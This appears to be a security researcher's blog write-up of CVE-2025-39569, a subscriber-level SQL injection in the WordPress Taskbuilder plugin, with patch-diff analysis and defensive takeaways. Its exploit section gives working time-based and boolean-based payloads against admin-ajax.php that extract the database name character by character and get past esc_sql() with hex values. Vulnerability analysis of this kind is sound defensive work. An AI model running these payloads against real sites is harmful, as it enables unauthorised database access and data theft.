








<!--more-->

The vulnerability occurs in the **Taskbuilder** WordPress plugin before version **4.0.2**. This could allow an attacker to directly interact with your database, including, but not limited to, stealing information.
- **CVE ID**: [CVE-2025-39569](https://www.cve.org/CVERecord?id=CVE-2025-39569)
- **Product**: [WordPress Taskbuilder Plugin](https://wordpress.org/plugins/taskbuilder/)
- **Vulnerability Type**: SQL Injection  
- **Affected Versions**: < 4.0.2
- **CVSS Severity**: High (8.5) 
- **Required Privilege**: Subscriber

## Requirements
* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
- **Taskbuilder Plugin**: v4.0.1 (vulnerable) and v4.0.2 (patched)
- **Diff Tool**: **meld** or any tool that can compare files to see differences between two versions

## Analysis
The application **sanitizes input data** before using it in SQL queries. However, during query construction, this value is inserted directly without being wrapped in single quotes `'...'`. This allows an attacker to inject valid SQL syntax (such as `OR`, `AND`, etc.) into the query, resulting in a SQL Injection vulnerability.

### Patch Diff
Use any diff tool to compare differences between the vulnerable version and the patched version.  
The clear difference is in the file **includes/admin/projects/get_users.php**.

In version **v4.0.1**, the variable `$proj_id` is escaped but inserted directly into the query without quotes:

```php
$proj_id = esc_sql($proj_id);
$project = $wpdb->get_row( "SELECT * FROM {$wpdb->prefix}wppm_project where id = $proj_id" );
```

In version **v4.0.2**, the query is adjusted to wrap `$proj_id` in quotes after escaping:

```php
$proj_id = esc_sql($proj_id);
$project = $wpdb->get_row( "SELECT * FROM {$wpdb->prefix}wppm_project where id = '$proj_id'" );
```

This patch ensures that the `$proj_id` value after escaping is treated as a **literal string**, preventing it from escaping the quotes to inject SQL syntax, effectively mitigating the SQL Injection.



### How It Works

**File Architecture**:

General structure of the current file:

```php
$proj_id  = esc_sql($proj_id);
$project  = $wpdb->get_row("SELECT * FROM {$wpdb->prefix}wppm_project WHERE id = $proj_id");

// Start buffer to generate the main modal content
ob_start();
// ... render HTML user list
$body = ob_get_clean();

// Start buffer to generate modal footer
ob_start();
// ... render HTML buttons (Close, Save)
$footer = ob_get_clean();

// Return JSON data for frontend modal rendering
echo json_encode([
    'body'   => $body,
    'footer' => $footer,
]);
```

* `$proj_id` / `$project`: Fetch project data from the database.
* `ob_start()` / `ob_get_clean()`: Buffer HTML output instead of printing directly, storing it in a variable.
* `$body` / `$footer`: Contain dynamic HTML for the modal.
* `json_encode()`: Returns JSON to the client, often used in Ajax to render modals without refreshing the page.

The file is located in `includes`, suggesting it’s called from another feature. To find where it’s used, search for `get_users.php` in the plugin directory.



👉 It is included in the function `wppm_get_users()` of the class `WPPM_Admin` in **class-wppm-admin.php**.
`wppm_get_users()` is a **callback** for a **WordPress action hook**.

**WPPM_Admin constructor**:

```php
final class WPPM_Admin {
    public function __construct() {

        // other actions

        add_action( 'wp_ajax_wppm_get_users', array($this,'wppm_get_users'));

        // other actions
    }
}
```

* `add_action()` is a **WordPress Plugin API** method to attach a **callback** to an **action hook**.
* `wp_ajax_wppm_get_users` is an Ajax hook name:

  * `wp_ajax_{action}` → handles Ajax for logged-in users.
  * `wp_ajax_nopriv_{action}` → handles Ajax for non-logged-in users.
* Here, `action = wppm_get_users`. If you send `action=wppm_get_users` via Ajax to `admin-ajax.php`, WordPress will execute the corresponding callback, here `wppm_get_users()`.

👉 Knowing `action = wppm_get_users`, you can find which Ajax requests use it by searching `wppm_get_users` in **.js** files of the plugin.



The `wppm_get_users` action is the **data part** in the POST request handled by `wppm_get_users()`.

The function is referenced in HTML attributes of the **project feature**:

* Create a new project
* Access that project
* Inspect code to locate `wppm_get_users` and see which actions call it



👉 Clicking the **icon next to Users** triggers Ajax, sending a request to the server to fetch project users and render them in HTML.



## Exploit

### Detect SQLi

Capture requests using BurpSuite and send a **time-based SQLi payload**:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
...
action=wppm_get_users&proj_id=(SELECT+SLEEP(1))
```



Response delay indicates a successful SQL Injection.

### Get First Letter of Database Name

To **dump all data**, the first step is to extract at least one character of the database name. Once retrieved, the rest can be dumped.

Send a **boolean-based SQLi payload** with the correct `proj_id`:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
...
action=wppm_get_users&proj_id=(SELECT+IF(SUBSTRING(DATABASE(),1,1)=0x77,4,999))
```

> Database name is **wordpress**, so the first character is `w` (HEX `0x77`).

`SUBSTRING(STRING,1,1)` retrieves the first character.

Here, `$proj_id = 4`. Since `SUBSTRING('wordpress',1,1)=0x77` is true, the `IF(condition, value_if_true, value_if_false)` returns `4`, which exists in the database, so the response contains the project users.



Using **HEX technique** bypasses the `esc_sql()` function (see [Patch Diff](#patch-diff)) when quotes cannot be used.

Send a **boolean-based SQLi payload** with a wrong `proj_id`:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
...
action=wppm_get_users&proj_id=(SELECT+IF(SUBSTRING(DATABASE(),1,1)=0x77,999,4))
```

With a non-existent `proj_id`, the response contains `None`.



👉 We successfully retrieved the first character of the database name using **boolean-based SQLi**:

* Correct `proj_id`: response without `None`
* Wrong `proj_id`: response contains `None`

> Time-based SQLi could also be used, but dumping large data sets would be slow.

## Conclusion

The **CVE-2025-39569** vulnerability in **WordPress Taskbuilder** arises from the missing single quotes `'...'` around user input in SQL queries, allowing user data to be interpreted as valid SQL syntax.

The patch in **v4.0.2** fixed this by wrapping `$proj_id` in quotes, ensuring it is always treated as a literal string in SQL.

**Key Takeaways**:

* Prefer **prepared statements** (`$wpdb->prepare()` in WordPress) over manually inserting variables into queries.
* For WordPress plugins, thoroughly test **Ajax endpoints**, as they are the most common sources of SQLi and XSS.
* Administrators should regularly update plugins/themes to receive security patches promptly.

## References

[SQL Injection Cheat Sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[WordPress Taskbuilder <= 4.0.1 Vulnerable to SQL Injection](https://patchstack.com/database/wordpress/plugin/taskbuilder/vulnerability/wordpress-taskbuilder-4-0-1-sql-injection-vulnerability?_s_id=cve)
